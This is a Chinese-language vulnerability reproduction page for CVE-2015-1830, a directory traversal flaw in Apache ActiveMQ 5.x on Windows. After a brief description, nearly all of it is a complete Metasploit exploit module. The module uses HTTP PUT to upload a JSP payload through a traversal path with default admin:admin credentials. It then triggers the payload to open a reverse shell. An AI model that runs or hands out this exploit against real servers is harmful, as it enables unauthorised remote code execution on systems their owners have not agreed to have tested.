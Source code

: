 <h1>（CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce</h1>
<h2>一、漏洞简介</h2>
<p>Windows 5.11.2之前的Apache ActiveMQ 5.x中blob消息的文件服务器上载/下载功能中的目录遍历漏洞允许远程攻击者通过未指定的向量在任意目录中创建JSP文件。</p>
<h2>二、漏洞影响</h2>
<p>ActiveMQ 5.11.1</p>
<h2>三、复现过程</h2>
<h3>msf poc</h3>
<blockquote>
<p>直接在msf里面搜索就行了，如果没有请更新msf版本，或者手动复制下面的脚本到msf目录下。</p>
</blockquote>
<pre><code class="language-ruby">##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule &lt; Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           =&gt; 'Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload',
      'Description'    =&gt; %q{
        This module exploits a directory traversal vulnerability (CVE-2015-1830) in Apache
        ActiveMQ 5.x before 5.11.2 for Windows.

        The module tries to upload a JSP payload to the /admin directory via the traversal
        path /fileserver/..\\admin\\ using an HTTP PUT request with the default ActiveMQ
        credentials admin:admin (or other credentials provided by the user). It then issues
        an HTTP GET request to /admin/&lt;payload&gt;.jsp on the target in order to trigger the
        payload and obtain a shell.
      },
      'Author'          =&gt;
        [
          'David Jorm',     # Discovery and exploit
          'Erik Wynter'     # @wyntererik - Metasploit
        ],
      'References'     =&gt;
        [
          [ 'CVE', '2015-1830' ],
          [ 'EDB', '40857'],
          [ 'URL', 'https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt' ]
        ],
      'Privileged'     =&gt; false,
      'Platform'    =&gt; %w{ win },
      'Targets'     =&gt;
        [
          [ 'Windows Java',
            {
              'Arch' =&gt; ARCH_JAVA,
              'Platform' =&gt; 'win'
            }
          ],
        ],
      'DisclosureDate' =&gt; '2015-08-19',
      'License'        =&gt; MSF_LICENSE,
      'DefaultOptions'  =&gt; {
        'RPORT' =&gt; 8161,
        'PAYLOAD' =&gt; 'java/jsp_shell_reverse_tcp'
        },
      'DefaultTarget'  =&gt; 0))

    register_options([
      OptString.new('TARGETURI', [true, 'The base path to the web application', '/']),
      OptString.new('PATH',      [true, 'Traversal path', '/fileserver/..\\admin\\']),
      OptString.new('USERNAME', [true, 'Username to authenticate with', 'admin']),
      OptString.new('PASSWORD', [true, 'Password to authenticate with', 'admin'])
    ])
  end

  def check
    print_status("Running check...")
    testfile = Rex::Text::rand_text_alpha(10)
    testcontent = Rex::Text::rand_text_alpha(10)

    send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'PUT',
      'data'      =&gt; "&lt;% out.println(\"#{testcontent}\");%&gt;"
    })

    res1 = send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'GET'
    })

    if res1 &amp;&amp; res1.body.include?(testcontent)
      send_request_cgi(
        opts = {
          'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
          'headers'     =&gt; {
            'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
            },
          'method'    =&gt; 'DELETE'
        },
        timeout = 1
      )
      return Exploit::CheckCode::Vulnerable
    end

    Exploit::CheckCode::Safe
  end

  def exploit
    print_status("Uploading payload...")
    testfile = Rex::Text::rand_text_alpha(10)
    vprint_status("If upload succeeds, payload will be available at #{target_uri.path}admin/#{testfile}.jsp") #This information is provided to allow for manual execution of the payload in case the upload is successful but the GET request issued by the module fails.

    send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'PUT',
      'data'      =&gt; payload.encoded
    })

    print_status("Payload sent. Attempting to execute the payload.")
    res = send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
      },
      'method'    =&gt; 'GET'
    })
    if res &amp;&amp; res.code == 200
      print_good("Payload executed!")
    else
      fail_with(Failure::PayloadFailed, "Failed to execute the payload")
    end
  end
end
</code></pre>
